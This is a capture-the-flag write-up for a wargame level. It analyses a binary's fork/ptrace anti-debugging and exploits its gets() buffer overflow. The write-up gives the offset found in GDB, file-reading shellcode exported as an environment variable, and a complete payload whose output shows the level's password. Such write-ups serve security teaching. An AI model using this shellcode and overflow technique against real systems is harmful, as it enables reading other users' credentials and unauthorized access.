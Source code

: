 Level4 implements **anti-debugging protection** using `fork()`, `ptrace()`, and process monitoring. The program creates a child process that sets up debugging protection, while the parent monitors for debugging attempts. However, it contains a **buffer overflow vulnerability** in the `gets()` function that can be exploited with shellcode.

## Key Assembly Analysis

### Main Function Structure
```assembly
0x080486d6 <+14>:    call   0x8048550 <fork@plt>          # fork() - Create child process
0x080486db <+19>:    mov    %eax,0xac(%esp)               # Store child PID
0x080486e2 <+26>:    lea    0x20(%esp),%ebx               # Load buffer address
0x080486f4 <+44>:    rep stos %eax,%es:(%edi)             # Initialize buffer with zeros
0x08048709 <+65>:    cmpl   $0x0,0xac(%esp)               # Check if child process
0x08048711 <+73>:    jne    0x8048769 <main+161>          # Jump to parent code
```

### Child Process (Anti-Debugging Setup)
```assembly
0x08048722 <+90>:    call   0x8048540 <prctl@plt>         # prctl(PR_SET_DUMPABLE, 1)
0x08048746 <+126>:   call   0x8048570 <ptrace@plt>        # ptrace(PTRACE_TRACEME, 0, 0, 0)
0x08048752 <+138>:   call   0x8048500 <puts@plt>          # puts("Give me some shellcode, k")
0x0804875e <+150>:   call   0x80484b0 <gets@plt>          # gets(buffer) - VULNERABLE!
```

### Parent Process (Debugger Detection)
```assembly
0x08048770 <+168>:   call   0x80484f0 <wait@plt>          # wait(&wait_status)
0x080487dc <+276>:   call   0x8048570 <ptrace@plt>        # ptrace(PTRACE_PEEKDATA, child_pid, 0x2c, 0)
0x080487e8 <+288>:   cmpl   $0xb,0xa8(%esp)               # Check if ptrace returned 0xb
0x080487f0 <+296>:   jne    0x8048768 <main+160>          # Loop if debugger detected
```

## Anti-Debugging Mechanisms

### 1. Fork Protection
- **Purpose**: Separate user input handling from monitoring
- **Implementation**: `fork()` creates child process
- **Effect**: Parent can monitor child without interference

### 2. Ptrace Protection
- **Purpose**: Prevent multiple debuggers from attaching
- **Implementation**: `ptrace(PTRACE_TRACEME, 0, 0, 0)` in child
- **Effect**: Only one debugger can attach to child process

### 3. Debugger Detection
- **Purpose**: Detect if external debugger is attached
- **Implementation**: Parent tries `ptrace(PTRACE_PEEKDATA)` on child
- **Logic**: If debugger attached, ptrace fails (returns -1)

### 4. Process Monitoring
- **Purpose**: Monitor child process status
- **Implementation**: `wait()` and status checking
- **Effect**: Detect if child was killed or stopped

## Vulnerability Analysis

The program uses `gets(buffer)` with **no bounds checking**, making it vulnerable to buffer overflow attacks.

### 1. Calculate Buffer Offset

Use GDB to find the exact offset:
```bash
gdb ./level04
(gdb) set follow-fork-mode child
(gdb) run
Starting program: /home/users/level04/level04 
[New process 2911]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 2911]
0x41326641 in ?? ()
```

**Result**: `0x41326641` → Offset: **156 bytes**

### 2. Select Appropriate Shellcode

Since ptrace() monitors child memory, we **cannot use exec-based shellcode** (like `exec("/bin/sh)`) because:
- `exec()` keeps the process ID but replaces all program and memory
- This triggers the anti-debugging detection

Instead, use **file-reading shellcode** that opens and reads the password file directly:
- **Source**: https://shell-storm.org/shellcode/files/shellcode-73.html
- **Function**: Opens and reads `/home/users/level05/.pass`

### 3. Store Shellcode in Environment Variable

Export the shellcode as an environment variable and find its address:

```bash
export w=$'\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass'
```

### 4. Find Shellcode Address

Create a C program to get the environment variable address:

```bash
echo '#include <stdio.h>
#include <stdlib.h>

int main() {
    printf("%p\n", getenv("w"));
    return 0;
}' > /tmp/find.c

gcc -m32 /tmp/find.c -o /tmp/find
./find
```

**Result**: Address = `0xffffdf4b`

## Exploitation

### 1. Create the Payload

```bash
python -c "print 156 * 'a' + '\x4b\xdf\xff\xff'" | ./level04
```

### 2. Execute the Exploit


level04@OverRide:~$ python -c "print 156 * 'a' + '\x4b\xdf\xff\xff'" | ./level04
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
child is exiting...
